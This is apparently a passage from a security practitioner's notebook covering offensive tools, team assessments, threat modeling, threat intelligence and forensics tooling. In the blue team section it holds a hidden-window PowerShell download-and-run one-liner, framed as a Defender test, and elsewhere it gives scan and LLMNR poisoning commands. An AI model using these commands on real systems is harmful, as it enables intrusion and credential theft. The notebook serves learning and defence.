Syntax:: gobuster dir -u http://<site-name or IP address>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o dirbust-root.log

===== Hashcat

===== HTTPROBE
[horizontal]
Github:: https://github.com/tomnomnom/httprobe
Perform a scan on specific ports:: cat domains.txt | httprobe -s -p https:8443


===== Hydra

===== Impacket-secretsdump

===== JQ
jq is like sed for JSON data - you can use it to slice and filter and map and transform structured data with the same ease that sed, awk, grep and friends let you play with text.

jq is written in portable C, and it has zero runtime dependencies. You can download a single binary, scp it to a far away machine of the same type, and expect it to work.

jq can mangle the data format that you have into the one that you want with very little effort, and the program to do so is often shorter and simpler than you’d expect.

More information here: https://stedolan.github.io/jq/

===== Kali Linux

[horizontal]
Install ntpdate package:: sudo apt-get install ntpdate
Sync date & time with ntp source:: sudo ntpdate in.pool.ntp.org
Install all the tools on Kali:: sudo apt-get install kali-linux-full
Kali Tools Listing:: https://en.kali.tools/all/
Update Kali:: sudo apt-get update; sudo apt-get dist-upgrade;sudo apt-get clean

===== LinEnum
Linux enumeration & privilege escalation checks

Link: https://github.com/rebootuser/LinEnum



===== Mentalist
Mentalist is a graphical tool for custom wordlist generation. It utilizes common human paradigms for constructing passwords and can output the full wordlist as well as rules compatible with Hashcat and John the Ripper.
Link: https://github.com/sc0tfree/mentalist/blob/master/README.md

===== Metasploit

[horizontal]
On Kali metasploit is in this directory:: /usr/share/metssploit-framework
To Update metasploit:: apt update; apt install metasploit-framework
Metasploit Online Database:: https://www.rapid7.com/db/modules

===== Mimikatz
Mimikatz is a leading post-exploitation tool that dumps passwords from memory, as well as hashes, PINs and Kerberos tickets. Other useful attacks it enables are pass-the-hash, pass-the-ticket or building Golden Kerberos tickets. This makes post-exploitation lateral movement within a network easy for attackers.

Link: https://github.com/gentilkiwi/mimikatz



===== Nikto
Nikto is an Open Source (GPL) web server scanner which performs comprehensive tests against web servers for multiple items, including over 6700 potentially dangerous files/programs, checks for outdated versions of over 1250 servers, and version specific problems on over 270 servers. It also checks for server configuration items such as the presence of multiple index files, HTTP server options, and will attempt to identify installed web servers and software. Scan items and plugins are frequently updated and can be automatically updated.

Nikto is not designed as a stealthy tool. It will test a web server in the quickest time possible, and is obvious in log files or to an IPS/IDS. However, there is support for LibWhisker's anti-IDS methods in case you want to give it a try (or test your IDS system).


Not every check is a security problem, though most are. There are some items that are "info only" type checks that look for things that may not have a security flaw, but the webmaster or security engineer may not know are present on the server. These items are usually marked appropriately in the information printed. There are also some checks for unknown items which have been seen scanned for in log files.

https://cirt.net/Nikto2 

===== Powershell Empire
Empire has an inbuilt listener named http_hop which allows us to redirect our traffic to one of our another active listener after getting an agent. Thus, the name hop as it hops the agent from one listener to another in order to redirect traffic.

Similar to Metasploit, the hop listener in empire uses a hop.php file. When you activate the hop listener, it will generate three PHP files that will redirect your existing listener. Place the said files in your jump server (ubuntu) and then set up your stager in according to get the session through the mediator i.e. our hop listener.
Link: https://www.hackingarticles.in/hiding-ip-during-pentest-using-powershell-empire-http_hop/

===== Pupy
Pupy is a cross-platform, post exploitation tool as well as a multi-function RAT. It’s written in python which makes it very convenient. It also has low detectability that’s why it’s a great tool for the red team.  Pupy can communicate using multiple transports, migrate into processes using reflective injection, and load remote python code, python packages and python C-extensions from memory.

It uses a reflected DLL to load python interpreter from memory which is great as nothing will be shown in the disk. It doesn’t have any special dependencies. It can also migrate into other processes. The communication protocols of pupy are modular and stackable. It can execute non-interactive commands on multiple hosts at once. All the interactive shells can be accessed remotely.
Link: https://www.hackingarticles.in/command-control-tool-pupy/

===== Responder
This tool is first an LLMNR and NBT-NS responder, it will answer to *specific* NBT-NS (NetBIOS Name Service) queries based on their name suffix (see: http://support.microsoft.com/kb/163409). By default, the tool will only answers to File Server Service request, which is for SMB. The concept behind this, is to target our answers, and be stealthier on the network. This also helps to ensure that we don’t break legitimate NBT-NS behavior. You can set the -r option to 1 via command line if you want this tool to answer to the Workstation Service request name suffix.

Usage Example
Specify the IP address to redirect to (-i 192.168.1.202), enabling the WPAD rogue proxy (-w On), answers for netbios wredir (-r On), and fingerprinting (-f On):

	responder -i 192.168.1.202 -w On -r On -f On

===== Sbmclient

===== Sharp Cookie Monster

If you steal a users Chrome cookie, you can log into their accounts on every website they are logged into.

Normally you need the user’s password to do it, @mangopdf found a way to do it without the password. You just need to be able to execute code on their computer. It works by using Chrome’s Remote Debugging Protocol

This tool is based on Cookie Crimes module: https://github.com/defaultnamehere/cookie_crimes 

Link: https://www.blackhatethicalhacking.com/tools/sharp-cookie-monster/

===== Smbmap

===== SSLStrip

===== Sublist3r

Sublist3r is a python tool designed to enumerate subdomains of websites using OSINT. It helps penetration testers and bug hunters collect and gather subdomains for the domain they are targeting. Sublist3r enumerates subdomains using many search engines such as Google, Yahoo, Bing, Baidu, and Ask. Sublist3r also enumerates subdomains using Netcraft, Virustotal, ThreatCrowd, DNSdumpster, and ReverseDNS.

*Installation*
. Login as root
. Open a terminal session
. Change directory to /opt

	cd /opt

. Download the latest version from git

	git clone https://github.com/aboul3la/Sublist3r.git

. Change the directory to Sublist3r:

	cd Sublist3r

. Install the required dependencies:

	pip install -r requirements.txt

. Execute the sublist3r

	python sublist3r -h
	or
	./sublist3r.py -h 

[horizontal]
Source:: https://github.com/aboul3la/Sublist3r
Author:: Ahmed Aboul-Ela
License:: GPL-2+

===== TheHarvester

===== Tokenvator
A Tool to Elevate Privilege using Windows Tokens

Link: https://blog.netspi.com/tokenvator-a-tool-to-elevate-privilege-using-windows-tokens/

===== TruffleHog

Link: https://github.com/dxa4481/truffleHog

===== Wfuzz
Wfuzz is a tool designed for bruteforcing Web Applications, it can be used for finding resources not linked (directories, servlets, scripts, etc), bruteforce GET and POST parameters for checking different kind of injections (SQL, XSS, LDAP,etc), bruteforce Forms parameters (User/Password), Fuzzing,etc.

[horizontal]
Source:: https://github.com/xmendez/wfuzz/
Author:: Christian Martorella, Carlos del ojo, Xavier Mendez aka Javi
License:: GPLv2

===== Yara


==== Red team Assessment
A Red Team Assessment is similar to a penetration test in many ways but is more targeted. The goal of the Red Team Assessment is NOT to find as many vulnerabilities as possible. The goal is to test the organization's detection and response capabilities. The red team will try to get in and access sensitive information in any way possible, as quietly as possible. The Red Team Assessment emulates a malicious actor targeting attacks and looking to avoid detection, similar to an Advanced Persistent Threat (APT). (Ugh! I said it…) Red Team Assessments are also normally longer in duration than Penetration Tests. A Penetration Test often takes place over 1-2 weeks, whereas a Red Team Assessment could be over 3-4 weeks or longer, and often consists of multiple people.

A Red Team Assessment does not look for multiple vulnerabilities but for those vulnerabilities that will achieve their goals. The goals are often the same as the Penetration Test. Methods used during a Red Team Assessment include Social Engineering (Physical and Electronic), Wireless, External, and more. A Red Team Assessment is NOT for everyone though and should be performed by organizations with mature security programs. These are organizations that often have penetration tests done, have patched most vulnerabilities, and have generally positive penetration test results.

The Red Team Assessment might consist of the following:

A member of the Red Team poses as a Fed-Ex delivery driver and accesses the building. Once inside, the Team member plants a device on the network for easy remote access. This device tunnels out using a common port allowed outbound, such as port 80, 443, or 53 (HTTP, HTTPS, or DNS), and establishes a command and control (C2) channel to the Red Team's servers. Another Team member picks up the C2 channel and pivots around the network, possibly using insecure printers or other devices that will take the sights off the device placed. The Team members then pivot around the network until they reach their goal, taking their time to avoid detection.

This is just one of innumerable methods a Red Team may operate but is a good example of some tests we have performed.

* Offensive Security
* Ethical Hacking
* Exploiting Vulnerabilities
* Penetration Testing
* Black Box Testing
* Social Engineering
* Web App Scanning

===== Red Team Resources

. https://www.hackingarticles.in/red-teaming/ 

====== Remote Access Trojan (RAT)
Link: https://github.com/b4rtik/RedPeanut


==== Blue Team Assessment
Blue team assessment is usually a test of the teams' ability to identify and defend the network while under attack by the Red Teams/Penetration Tester/Hacker.

* Defensive Security
* Infrastructure Protection
* Damage Control
* Incident Response
* Operational Security
* Threat Hunters
* Digital Forensics

===== Powershell to test Windows Defender

	powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-WDATP-test\\invoice.exe');Start-Process 'C:\\test-WDATP-test\\invoice.exe'

==== Purple Team
* Collaborative Security
* Reand & Blue Teams Function Together
* Cooperate to improve/test detection
* Vulnerability Scanning & Pen Testing

==== Methods
social engineering, phishing, vishing or simply posing as a company employee.

=== Threat Modeling
Threat modeling is a process by which potential threats, such as structural vulnerabilities can be identified, enumerated, and prioritized – all from a hypothetical attacker’s point of view. The purpose of threat modeling is to provide defenders with a systematic analysis of the probable attacker’s profile, the most likely attack vectors, and the assets most desired by an attacker. Threat modeling answers the questions “Where are the high-value assets?” “Where am I most vulnerable to attack?” “What are the most relevant threats?” “Is there an attack vector that might go unnoticed?

It is a structured approach that enables you to identify, quantify, and address the security risks associated with an application. Threat modeling is not an approach to reviewing code, but it does complement the security code review process.

Some great information here  https://www.threatmodelingmanifesto.org/[Threat Modeling Manifesto]

==== CVSS
CVSS stands for Common Vulnerability Scoring System, which provides a score to indicate the severity of the CVE vulnerabilities.

Assignment of a CVSS score is based on:

* The primary impact on the confidentiality, integrity, and availability of the protected system/resources
* The derivative impact on loss of life and/or properties
* The percentage of the impacted area within the total environment
* How easy it is to exploit the vulnerability
* How easy it is to remediate the vulnerability
* How confident the testing team is about the existence of the vulnerability

==== NVD
National Vulnerability Database (NVD) is the U.S. government repository of standards based vulnerability management data. NVD also provides severity rankings of "Low," "Medium," and "High" in addition to the numeric CVSS scores. These qualitative rankings are simply mapped from the numeric CVSS scores:

* Vulnerabilities are labeled "Low" severity if they have a CVSS base score of 0.0-3.9.
* Vulnerabilities will be labeled "Medium" severity if they have a base CVSS score of 4.0-6.9.
* Vulnerabilities will be labeled "High" severity if they have a CVSS base score of 7.0-10.0

==== STRIDE
STRIDE is a model of threats developed by Praerit Garg and Loren Kohnfelder at Microsoft[1] for identifying computer security threats.[2] It provides a mnemonic for security threats in six categories.[3]

The threats are:

* **S**poofing of user identity
* **T**ampering
* **R**epudiation
* **I**nformation disclosure (privacy breach or data leak)
* **D**enial of service (D.o.S)
* **E**levation of privilege.

==== DREAD
DREAD methodology is used to rate, compare and prioritize the severity of risk presented by each threat that is classified using STRIDE.

* **D**amage
* **R**eproducibility
* **E**xploitability
* **A**ffected Users
* **D**iscoverability

DREAD Risk = (Damage + Reproduciblity + Exploitability + Affected Users + Discoverability) / 5. Calculation always produces a number between 0 and 10. Higher the number means more serious the risk is.

Following is a customized mathematical approach to implement DREAD methodology:-

*Damage Potential*
If a threat exploit occurs, how much damage will be caused?

* 0 = Nothing
* 5 = Information disclosure that could be used in combination with other vulnerabilities
* 8 = Individual/employer non sensitive user data is compromised.
* 9 = Administrative non sensitive data is compromised.
* 10 = Complete system or data destruction.
* 10 = Application unavailability.

*Reproducible*
How easy is it to reproduce the threat exploit?

* 0 = Very hard or impossible, even for administrators of the application.
* 5 = Complex steps are required for authorized user.
* 7.5 = Easy steps for Authenticated user
* 10 = Just a web browser and the address bar is sufficient, without authentication.

*Exploit-ability*
What is needed to exploit this threat?

* 2.5 = Advanced programming and networking knowledge, with custom or advanced attack tools.
* 5 = Exploit exits in public, using available attack tools.
* 9 = A Web Application Proxy tool
* 10 = Just a web browser

*Affected Users*
How many users will be affected?

* 0 = None
* 2.5 individual/employer that is already compromised.
* 6 = some users of individual or employer privileges, but not all.
* 8 = Administrative users
* 10 = All users

*Discover-ability*
How easy is it to discover this threat?

* 0 = Very hard requires source code or administrative access.
* 5 = Can figure it out by monitoring and manipulating HTTP requests
* 8 = Details of faults like this are already in the public domain and can be easily discovered using a search engine.
* 10 = the information is visible in the web browser address bar or in a form.

DREAD methodology can be customized to cater the needs of your application, during consultancy engagements it should be approved from the client before starting the security assessment so that after you perform the analysis the results produced by DREAD couldn’t be challenged.

=== Threat Intelligence
This is the key methodology that every cyber security practictioner should be familiar with.  It ensures that one stays in sync with all the activites of threat actors and use that information to proactively protect their environments.

==== Search Engines

===== IoT



==== Threat Exchanges


==== MITRE ATT&CK
https://attack.mitre.org/[MITRE ATT&CK™] is a globally-accessible knowledge base of adversary tactics and techniques based on real-world observations. The ATT&CK knowledge base is used as a foundation for the development of specific threat models and methodologies in the private sector, in government, and in the cyber security product and service community.

With the creation of ATT&CK, MITRE is fulfilling its mission to solve problems for a safer world — by bringing communities together to develop more effective cybersecurity. ATT&CK is open and available to any person or organization for use at no charge.

==== Open Threat Exchange(OTX)

==== Palo Alto Unit42
Unit 42 is the global threat intelligence team at Palo Alto Networks®

.. Palo Alto Unit42 website: https://unit42.paloaltonetworks.com/ 
.. Playbook: https://pan-unit42.github.io/playbook_viewer/ 

https://www.packetstormsecurity.com
https://www.securityfocus.com
https://www.exploit-db.com

==== Cisco Talos
Cisco Talos Intelligence Group is one of the largest commercial threat intelligence teams in the world, comprised of world-class researchers, analysits and engineers.  These teams are supposed by unrivaled telemetry and sophisticated systems to create accurate, rapid and actionable threat intelligence for Cisco Customers, products and services.  Talos defends Cisco customers against knowns and emerging threats, discovers new vulnerabilities in common software, and interdicts threats in the wild beofre they can further harm the internet at large.  Talos maintains the official rules sets of Snort.org, ClamAV, and SpanCop, in addition to releasing many open-source research and analysis tools.

Talos was formed by combining SourceFire's Vulnerability Research Team, the Cisco Threat Research and Communications group, and the Cisco Security Applications Group.  The combined expertise is backed by a sophisticated infrastrucutre, and Cisco's unrivaled telemetry of data that spans across networks, endpoints, cloud environments, virtual systems, and daily web and email traffic.

Link: https://talosintelligence.com/ 

==== Sophos Labs


Link: https://www.sophos.com/en-us/labs.aspx 

==== STIX
STIX (Structured Threat Information eXpression) was originally conceived as a language to describe cyber threat intelligence. This was groundbreaking at the time because it was the first language to provide a definition of cyber threat intelligence. Although it’s a bit of a fuzzy term, cyber threat intelligence generally describes information about adversaries and their behaviors that can inform defensive actions. For example, knowing that a certain adversary targets financial institutions by using specially crafted spear-phishing emails, and then delivers Trojans that will reach out to a certain set of websites that are known to be malicious, can be very helpful in defending against the attack. STIX captures that type of intelligence in a machine-readable form so that it can be shared among organizations and tools.

The DHS Office of Cybersecurity and Communications funded MITRE, beginning in 2012, to act as the technical developer of STIX and serve as a community facilitator to jumpstart STIX. Once some level of maturity was reached, STIX would be transitioned to an international standards body. That goal was realized in 2015 when governance of STIX was transitioned to OASIS, an international standards consortium. This was a big step for STIX and a big success for DHS, MITRE, and the community because it meant that STIX was on its way to becoming an international standard. Although DHS and MITRE continue to serve in several leadership positions in the CTI TC, the majority of the leadership and the vast majority of participants in the TC are from industry. In fact, the OASIS CTI TC was founded with more participants than any other TC in OASIS history. It's that community that led the development of STIX 2.0.

==== TAXII
TAXII is a high-level protocol for moving cyber threat intelligence (primarily STIX) data around between systems and tools. We expect that, within the coming months, TAXII will be achieving this same milestone and opening its own public review period.

If you're interested in learning more about STIX 2.0 or TAXII 2.0, the documentation page is the best place to start.

==== Tools

===== MISP
MISP - Open Source Threat Intelligence Platform & Open Standards For Threat Information Sharing

Link: https://www.misp-project.org/

=== Threat Hunting
Threat hunting is a relatively new focal area in information security.  Actively looking for C2C in your environment.  Firewalls, IDS/IPS, SIEM are not able to detect C2C.

*Beacons*
Looking for persistent outbound signal
* Is there consistency in timing
* 

==== Sysmon
Microsoft Sysinternals Sysmon configuration repository, set up modular for easier maintenance and generation of specific configs.
link: https://github.com/olafhartong/sysmon-modular

==== Detecting C2 over DNS
* Capture all DNS traffic
** Capture tool of your choice
** Longer the capture time, the better
* Filter so it is DNS traffic only
* Extract to text so we can sort and count
* Review total FQDNs per domain
* Check domain with a lot of FQDNs

==== RITA

Link: https://www.activecountermeasures.com/free-tools/rita/ 

==== Tshark
	tshark -q -z conv,ip -r dnscat2.pcapng | tr -s ' ' | cut -d " " -f 1,2,3,10 | sort -k 4 -rn | head 
	
	tshark -r thunt-lab.pcapng -T fields -e dns.qry.name | sort |uniq | rev | cut -d '.' -f 1-2 |rev | uniq -c | sort -rn | head -10

==== Zeek
Network sniffing tool, formerly called Bro.


==== Reference Sites
. https://pentestmag.com/using-the-mitre-attck-navigator-for-intelligence-gathering-pre-purple-teaming/
. https://www.activecountermeasures.com/raspberry_pi_sensor/
. https://knowledgebase.paloaltonetworks.com/KCSArticleDetail?id=kA10g000000ClarCAC
. https://gist.github.com/MSAdministrator/7a61025263e279a740835da4b205e6d0
. https://www.twistlock.com/2019/01/02/whitelisting-blacklisting-security-strategy/
. https://en.wikipedia.org/wiki/Domain_fronting
. https://www.bleepingcomputer.com/news/security/teamviewer-confirms-undisclosed-breach-from-2016/
. https://www.linkedin.com/posts/kirtaroza_cyberthreatintelligence-note-paython-activity-6600672896148959232-J-r8/
. https://github.com/activecm/passer
. http://www.stearns.org/doc/pcap-apps.html
. HELKS
. SELKS
. Packet Squirrel https://shop.hak5.org/products/packet-squirrel
. https://register.gotowebinar.com/register/2540509980495221261?source=ACMtwitter
. netgear gs305e

=== Threat Risk Assessments
*Threat*: Any potential actor that has the capability, motivation, or intent to exploit a vulnerability.
Vulnerability: Is a weakness that allows a threat to compromise the security of a system.

*Risk*: Likelihood of a threat source to exploit a vulnerability to target a critical asset and impact a business negatively.
Controls, safeguards, countermeasures are implemented to reduce the risk.

=== Bug Bounty / Crowsourced Security Platforms
. Hackerone
. Bugcrowd
. Synack
. Detectify
. cobalt
. Open Bug Bounty
. Zerocopter
. YesWeHack
. HackenProof
. Vulnerability Lab
. FireBounty
. BugBounty.jp
. AntiHACK
. Intigriti
. SafeHats
. RedStorm
. Cyber Army ID
. Yogosha

<<<
== Digital Forensics & Incident Response

=== Preparation
. Never use flow charts for incident response
. Know your tools, practise, practise, practise
. Have procedures on when and how to use your tools
. There are differences on how to respond to an incident based on based on environment, hence ensure you are familiar with the environment and know which tools to use.  Some to of environments are:
.. On Premise
.. Azure
.. GCP
.. AWS
.. Other cloud provider

=== During the Incident
. Secure the impacted environment to ensure no one but Incident Responders only
. Document every activity during the incident in a log to ensure you have a timeline
. Dump the memory using following tools(this is not an exhaustive list):
.. PMEM
.. FTKIMAGER
. Decide which logs do you need to conduct your analysis, for example:
.. Active Directory Logs if you are an AD Shop, 99% environments today are.
.. File Server Logs
.. Web Server Logs
.. Application Server Logs
.. Database Server Logs
.. Firewall Logs
.. Switch Logs
.. Router Logs
.. Access Point Logs

==== Windows Persistence
Focus on System & Security logs.  Standard artifact utilized in any investigation.

Following log types are important:

. Task logs 
. Events concerning services
.. 7045 - Code for new service installed, should be a low frequency event.
.. 7009 - Service failed to start, what should be running and is not.
.. 7035/7036 - Services being tampered with for malicious purposes. Look for services that have no descrption, and have image path that is in a non standard directory.  DLL is in the same directory as exe, which is a side loading technique. Check for start type, if it is changed to 2, which is auto start. Type 10 means that the service is running under user account authority.
.. 601 - Attempt to install a service
.. 7034 - Service has crashed unexpectedly
. Events concerning schedules tasks
.. 4698 - When a scheduled task is created on a system that has been compromised
.. 4702 - When a scheduled task has been altered
.. 4701/4699 
.. 4700 - A scheduled task has been enabled.

Scheduled tasks with abnormal names or directories.  Attackers usually create a verly long task name.  Check the command syntax.

=== System Tools

==== References
. https://holisticinfosec.io/post/deepbluecli/[DeepBlueCLI: Powershell Threat Hunting]
. https://www.netscylla.com/blog/2020/02/01/Threat-hunting-with-Windows-Event-Logs.html[Threat Hunting with Windows Event Logs & Sysmon]

==== Autollr
AutoLLR is a live Linux evidence collection script that gathers key artifacts important for Incident Response investigations. In addition to gathering artifacts AutoLLR does some low overhead post processing to produce refined results that analysts can look at immediately.

Github: https://github.com/Dead-Simple-Scripts/AutoLLR 

Dead Simple Scripts: http://github.com/Dead-Simple-Scripts 

==== Autopsy
Autopsy® is the premier end-to-end open source digital forensics platform. Built by Basis Technology with the core features you expect in commercial forensic tools, Autopsy is a fast, thorough, and efficient hard drive investigation solution that evolves with your needs.

https://www.autopsy.com/

==== Bluegate
Proof of Concept (Denial of Service + scanner) for CVE-2020-0609 and CVE-2020-0610.

These vulnerabilities allows an unauthenticated attacker to gain remote code execution with highest privileges via RD Gateway for RDP.

Please use for research and educational purpose only.
Link: https://github.com/ollypwn/BlueGate

==== Bulk-extractor
It is a program that extracts features such as email addresses, credit card numbers, URLs, and other types of information from digital evidence files. It is a useful forensic investigation tool for many tasks such as malware and intrusion investigations, identity investigations and cyber investigations, as well as analyzing imagery and pass-word cracking. The program provides several unusual capabilities including:

* It finds email addresses, URLs and credit card numbers that other tools miss because it can process compressed data (like ZIP, PDF and GZIP ﬁles) and incomplete or partially corrupted data. It can carve JPEGs, office documents and other kinds of files out of fragments of compressed data. It will detect and carve encrypted RAR files.
* It builds word lists based on all of the words found within the data, even those in compressed files that are in unallocated space. Those word lists can be useful for password cracking.
* It is multi-threaded; running bulk_extractor on a computer with twice the number of cores typically makes it complete a run in half the time.
* It creates histograms showing the most common email addresses, URLs, domains, search terms and other kinds of information on the drive.

Link: https://tools.kali.org/forensics/bulk-extractor

==== Cortex
https://github.com/TheHive-Project/Cortex/[Cortex] tries to solve a common problem frequently encountered by SOCs, CSIRTs and security researchers in the course of threat intelligence, digital forensics and incident response: how to analyze observables they have collected, at scale, by querying a single tool instead of several?

Cortex, an open source and free software, has been created by TheHive Project for this very purpose. Observables, such as IP and email addresses, URLs, domain names, files or hashes, can be analyzed one by one or in bulk mode using a Web interface. Analysts can also automate these operations thanks to the Cortex REST API.

==== Cuckoo
https://cuckoosandbox.org/[Cuckoo] Sandbox is the leading open source automated malware analysis system.You can throw any suspicious file at it and in a matter of minutes Cuckoo will provide a detailed report outlining the behavior of the file when executed inside a realistic but isolated environment.

Malware is the swiss-army knife of cybercriminals and any other adversary to your corporation or organization.

In these evolving times, detecting and removing malware artifacts is not enough: it's vitally important to understand how they operate in order to understand the context, the motivations, and the goals of a breach.

Cuckoo Sandbox is free software that automated the task of analyzing any malicious file under Windows, macOS, Linux, and Android.

==== DeepBlueCLI
https://github.com/sans-blue-team/DeepBlueCLI[DeepBlueCLI] is a PowerShell Module for Threat Hunting via Windows Event Logs.

==== DensityScout
DensityScout is a tool that has been written for one purpose: finding (possibly unknown) malware on a potentially infected system. Therefore it takes advantage of the typical approach of malware authors to protect their "products" with obfuscation like run-time-packing and -encryption. The tool itself is based on the concept of our Bytehist tool, btw.

*So what does DensityScout do?*
DensityScout's main focus is to scan a desired file-system-path by calculating the density of each file to finally print out an accordingly descending list. Usually most Microsoft Windows executables are not packed or encrypted in any way which throws the hits of malicious executables to the top of the list where one can easily focus on.

*What's Density?*
Density can also be understood as "entropy". However, the algorithm behind density is not 100% equal to the one which entropy is based on. So we decided to choose a different name.

Link: https://www.cert.at/downloads/software/densityscout_en.html

==== DNSTwist
https://www.blackhatethicalhacking.com/tools/dnstwist/[dnstwist] takes in your domain name as a seed, generates a list of potential phishing domains and then checks to see if they are registered. Additionally it can test if the mail server from MX record can be used to intercept misdirected corporate e-mails and it can generate fuzzy hashes of the web pages to see if they are live phishing sites.

==== First Incident Response
https://github.com/certsocietegenerale/FIR[FIR] (Fast Incident Response) is an cybersecurity incident management platform designed with agility and speed in mind. It allows for easy creation, tracking, and reporting of cybersecurity incidents.

FIR is for anyone needing to track cybersecurity incidents (CSIRTs, CERTs, SOCs, etc.). It was tailored to suit our needs and our team's habits, but we put a great deal of effort into making it as generic as possible before releasing it so that other teams around the world may also use it and customize it as they see fit.

==== Kape
KAPE is a multi-function program that primarily: 

. collects files
. processes collected files with one or more programs.

KAPE reads configuration files on the fly and based on their contents, collects and processes relevant files. This makes KAPE very extensible in that the program’s author does not need to be involved to add or expand functionality.

As we will see later in more detail, KAPE uses the concepts of targets and modules to do its work. KAPE comes with a range of default targets and modules for operations most commonly required in forensic exams. These can also serve as models  for creating new targets and modules.

At a high level, KAPE works by adding file masks to a queue. This queue is then used to find and copy files from a source location. For files that are locked by the operating system, a second run bypasses the lock. At the end of the process, KAPE will make a copy and preserve metadata about all available files from a source location into a given directory. The second (optional) stage of processing is to run one or more programs against the collected data. This too works by targeting either specific file names or directories. Various programs are run against the files, and the output from the programs is then saved in directories named after a category, such as EvidenceOfExecution, BrowserHistory or AccountUsage.

By grouping things by category, examiners of all skill levels have the means to discover relevant information regardless of an individual artifact's source. In other words, an examiner no longer need to know how to process prefetch, shimcache, amcache, userassist, etc., as they relate to evidence of execution artifacts. Ultimately, a wider range of artifacts can be leveraged for any given requirement.

Link: https://www.kroll.com/en/insights/publications/cyber/kroll-artifact-parser-extractor-kape

==== LogonTracer
https://github.com/JPCERTCC/LogonTracer[LogonTracer] is a tool to investigate malicious logon by visualizing and analyzing Windows Active Directory event logs. This tool associates a host name (or an IP address) and account name found in logon-related events and displays it as a graph. This way, it is possible to see in which account login attempt occurs and which host is used.
This tool can visualize the following event id related to Windows logon based on https://www.first.org/resources/papers/conf2016/FIRST-2016-105.pdf[this research].

* 4624: Successful logon
* 4625: Logon failure
* 4768: Kerberos Authentication (TGT Request)
* 4769: Kerberos Service Ticket (ST Request)
* 4776: NTLM Authentication
* 4672: Assign special privileges

==== Loki
LOKI Free IOC Scanner: http://www.nextron-systems.com/loki/ 

Loki Github: http://github.com/Neo23x0/Loki

Automating APT Scanning with Loki Scanner and Splunk: http://www.redblue.team/2017/04/automating-apt-scanning-with-loki.html

==== Red Ripper
When you an image file, load them into red ripper.  Has plugins that you can run against a registry hive.

==== Rekall
http://www.rekall-forensic.com/[Rekall] is an advanced forensic and incident response framework. While it began life purely as a memory forensic framework, it has now evolved into a complete platform.  Rekall implements the most advanced analysis techniques in the field, while still being developed in the open, with a free and open source license. Many of the innovations implemented within Rekall have been published in http://www.rekall-forensic.com/documentation-1/publications[peer reviewed papers] .  

Rekall provides an end-to-end solution to incident responders and forensic analysts. From state of the art acquisition tools, to the most advanced open source memory analysis framework. http://www.rekall-forensic.com/documentation-1/rekall-documentation/rekall-at-a-glance[Rekall at a glance].

==== Rsync
Last ditch collection tool.  

==== Sharpchromium
https://www.blackhatethicalhacking.com/tools/sharp-chromium/

==== SIFT Workstation
The https://digital-forensics.sans.org/community/downloads[SIFT] Workstation is a group of free open-source incident response and forensic tools designed to perform detailed digital forensic examinations in a variety of settings. It can match any current incident response and forensic tool suite. SIFT demonstrates that advanced incident response capabilities and deep dive digital forensic techniques to intrusions can be accomplished using cutting-edge open-source tools that are freely available and frequently updated.

==== Sysmon
A windows system driver that captures events and sends them to eventlog. It can be downloaded from sysinternals website. 

. https://github.com/SwiftOnSecurity/[Swift on Security Sysmon Config file]

==== The Hive Project
https://github.com/TheHive-Project[TheHive] is a scalable 4-in-1 open source and free Security Incident Response Platform designed to make life easier for SOCs, CSIRTs, CERTs and any information security practitioner dealing with security incidents that need to be investigated and acted upon swiftly. It is the perfect companion for MISP. You can synchronize it with one or multiple MISP instances to start investigations out of MISP events. You can also export an investigation's results as a MISP event to help your peers and partners detect and react to attacks you've dealt with. Additionally, when TheHive is used in conjunction with Cortex, security analysts and researchers can easily analyze hundred of observables at once using more than 100 analyzers, contain an incident or eradicate malware thanks to Cortex responders.

==== Volatility Framework
Digital investigations had focused primarily on finding contraband within hard drive images. https://www.volatilityfoundation.org/[Volatility Foundation] introduced people to the power of analyzing the runtime state of a system using the data found in volatile storage (RAM). It also provided a cross-platform, modular, and extensible platform to encourage further work into this exciting area of research. Another major goal of the project was to encourage the collaboration, innovation, and accessibility to knowledge that had been common within the offensive software communities.

​Since that time, memory analysis has become one of the most important topics to the future of digital investigations and Volatility has become the world’s most widely used memory forensics platform. The project is supported by one of the largest and most active communities in the forensics industry. Volatility also provides a unique platform that enables cutting edge research to be immediately transitioned into the hands of digital investigators. As a result, research built on top of Volatility has appeared at the top academic conferences and Volatility has been used on some of the most critical investigations of the past decade. It has become an indispensible digital investigation tool relied upon by law enforcement, military, academia, and commercial investigators throughout the world.

Volatility development is now supported by The Volatility Foundation, an independent 501(c) (3) non-profit organization. The foundation was established to promote the use of Volatility and memory analysis within the forensics community, to defend the project's intellectual property (trademarks, licenses, etc.) and longevity, and, finally, to help advance innovative memory analysis research. Along these lines, the foundation was also formed to help protect the rights of the developers who sacrifice their time and resources to make the world’s most advanced memory forensics platform free and open source.

==== Winpmem

==== Persistence Investigations & Layered Drivers
* Layered drivers help find network sniffers, keyboard key loggers
* Triage methodology for persistence, focusing on layered drivers
* Common attacker practices:
** Redline - detects drivers and displaying information about them
** NTFS Driver - System Restore Driver should be check what is layered on top of it. It is called SR
KBD Class driver, associated with Key logging driver.

New Audit Viewer for Memoryze: https://www.fireeye.com/blog/threat-research/2008/11/new-audit-viewer-for-memoryze.html
Forensics #2 / Windows Forensics using Redline: https://attackersmindset.com/2018/05/22/forensics-2-windows-forensics-using-redline/
Redline user’s Guide: https://www.fireeye.com/content/dam/fireeye-www/services/freeware/ug-redline.pdf

==== SOF ELK

SOF-ELK® is a “big data analytics” platform focused on the typical needs of computer forensic investigators/analysts and information security operations personnel. The platform is a customized build of the open source Elastic stack, consisting of the Elasticsearch storage and search engine, Logstash ingest and enrichment system, Kibana dashboard frontend, and Elastic Beats log shipper (specifically filebeat). With a significant amount of customization and ongoing development, SOF-ELK® users can avoid the typically long and involved setup process the Elastic stack requires. Instead, they can simply download the pre-built and ready-to-use SOF-ELK® virtual appliance that consumes various source data types (numerous log types as well as NetFlow), parsing out the most critical data and visualizing it on several stock dashboards. Advanced users can build visualizations the suit their own investigative or operational requirements, optionally contributing those back to the primary code repository.

Link: https://github.com/philhagen/sof-ELK 
Training: https://youtu.be/Hk6An-LJ4jY   

==== Base64 Encoded Data
Base64 endoded data is not human readable, but it is determinsitic, similar to rot13 decoder.

. https://digital-forensics.sans.org/blog/2011/01/09/digital-forensics-finding-encoded-evidence[Finding encoded evidence]
. https://az4n6.blogspot.com/2017/10/finding-and-decoding-malicious.html[Finding and Decoding Malicious PowerShell Scripts]
